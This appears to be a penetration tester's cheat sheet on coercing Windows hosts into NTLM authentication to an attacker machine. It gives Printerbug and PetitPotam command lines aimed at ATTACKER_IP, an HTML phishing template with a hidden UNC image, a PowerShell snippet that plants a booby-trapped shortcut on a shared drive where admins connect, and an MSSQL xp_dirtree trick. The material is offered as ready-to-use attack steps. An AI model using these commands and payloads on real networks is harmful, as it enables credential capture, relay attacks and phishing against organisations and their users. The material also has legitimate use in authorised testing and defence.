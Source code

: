 # Trigger Incoming SMB Connections
## Printerbug
https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py   

Simple tool to trigger SpoolService bug via RPC backconnect. Similar to dementor.py.    
`# python3 printerbug.py domain/USER:password@target.domain.local ATTACKER_IP`   
 
### Using SpoolSample
The Printerbug can also be triggered from Windows using the "SpoolSample" tool: https://github.com/leechristensen/SpoolSample   

**Check Spooler Remotely**   
To check if the spooler is active on the remote target, there are different methods:   
- For DCs, you can use PingCastle   
- For manually checking a specific target with PowerShell, use: https://raw.githubusercontent.com/vletoux/SpoolerScanner/master/SpoolerScan.ps1
- For manually checking a specific target with Python, use: https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py

## PetitPotam
https://github.com/topotam/PetitPotam   

PoC tool to coerce Windows hosts to authenticate to other machines via MS-EFSRPC EfsRpcOpenFileRaw function. This is possible via other protocols and functions as well ;) .
The tools use the LSARPC named pipe with inteface c681d488-d850-11d0-8c52-00c04fd90f7e because it's more prevalent.
But it's possible to trigger with the EFSRPC named pipe and interface df1941c5-fe89-4e79-bf10-463657acf44d.
It doesn't need credentials against Domain Controller.

`# python3 PetitPotam.py -d 'domain' -u 'user' -p 'password' ATTACKER_IP TARGET`   

## Phishing email with <img> tag
Payload template
```
<html>
<body>
<img src="\\<ATTACKER VM>\someicon.ico" height="1" width="1" />
</body>
</html>
```

**Outlook**   
For some reason outlook only allows to embed an HTML file if it is attached through the quick access bar.
First you need to show the quick access toolbar, then customize the quick access toolbar by adding the command "Attach File" (More Commands...).
You can then attach the HTML payload to your email (Make sure you click on the dropdown and "Insert as Text")

## Shortcut
Trigger SMB connection using a shortcut, by setting its icon location to a UNC path (e.g. kali running Responder):   
```
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut("\\computername\software\test.lnk")
$shortcut.IconLocation = "\\10.10.10.1\test.ico"
$shortcut.Save()
```
A good location for such a file would be a central SMB share where many people have read access. (Or a share where the IT admins are regularly connecting to...)

## MSSQL
If you happen to find an MSSQL instance where you have access (using PowerUpSQL) and you can run either 'xp_fileexist' or 'xp_dirtree', you can try to use those to trigger an authenticated ntlm connection from the SQL service account to e.g. your responder instance.
